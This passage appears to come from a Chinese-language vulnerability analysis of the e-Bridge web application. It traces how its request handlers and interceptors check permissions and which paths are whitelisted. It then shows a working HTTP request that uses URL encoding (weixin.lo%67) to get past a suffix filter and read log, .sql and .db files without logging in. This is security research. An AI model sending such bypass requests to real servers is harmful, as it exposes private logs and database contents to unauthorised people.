 如不都不是，那么就会进行权限验证，说明以上路径是不经过权限验证的，  
```
```  
  
![img](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXeC6fCPlKvnACtNdmjsibia9f7gYpVcMyaguTRV1FtbhZDGYaJnZiaO3GAUPlcuyxXWlnKx05ILXvxA/640?wx_fmt=png&from=appmsg "")  
  
   
  
还判断了访问的控制器或者其方法是否使用了ClearInterceptor注解，如果使用了，那么也会进入下个拦截器，达到绕过权限的目的，  
  
![img](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXeC6fCPlKvnACtNdmjsibia9rUdZ1chLMXQLswhe4TicPokNCjDzDmL3Au29qOZmqOZ45hbdtKPVQrw/640?wx_fmt=png&from=appmsg "")  
  
   
  
权限认证总结：  
  
GlobalHandler处理器会拦截.log/.sql/.db后缀，可以利用url编码绕过，  
  
OutSysProxyHandler处理器分析路由，  
  
ActionHandler处理器判断uri如果存在.，就会跳过拦截器，  
  
uri如果不存在.，就会根据uri获取actionMapping实例，获取失败就404（虽然能利用uri编码绕过权限限制，但是这里是将uri与actionMapping实例的uri对比是否相同，如/wxapi/mobilelist!=/wxapi/mobilelis%73，因此虽然绕过了权限限制，但是服务找不到正确actionMapping实例了，就会报错404），  
  
之后开始执行拦截器，GlobalInterceptor拦截器会先判断uri的后面部分是否是有大小写字母或数字组成，然后根据uri判断是否需要权限认证，这里有白名单（url为/file/fileNoLogin，或者开头是/wxapi、/wxjsapi、/wxclient、/wxthirdapi），或者访问控制器的类/方法使用ClearInterceptor注解来绕过，  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x5 未授权访问日志、sql文件**  
  
GlobalHandler中利用url编码绕过，能读ROOT下的log目录中的日志，还能读取.sql、.db文件  
```
GET /log/weixin.lo%67.2025-02-08 HTTP/1.1
Host: 192.168.163.132:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.163.132:8088/main/base/sysInfo?c_menu=base_sysInfo
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 262
Origin: http://192.168.163.132:8088
Connection: close
Cookie: EBRIDGE_JSESSIONID=C0FEACC216EBF0F900D4D4203264
Priority: u=1

sysInfo.id=b3812de75d3e4765920ba4d9497c5744&sysInfo.sysouturl=http%3A%2F%2F192.168.91.133%3A8088&sysInfo.sysouterip=117.172.250.72&sysInfo.sysinnerurl=http%3A%2F%2F192.168.91.133%3A8088&sysInfo.filerealpath=C:\ebridge\tomcat\webapps\ROOT&sysInfo.upgrade_remind=1
```  
  
![img](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXeC6fCPlKvnACtNdmjsibia9kic2Z2uY3xalibnwTtVju3XXD1wibwiaZyEvlV0icGaeOlDJ9ia1JWAKBcHQ/640?wx_fmt=png&from=appmsg "")  
  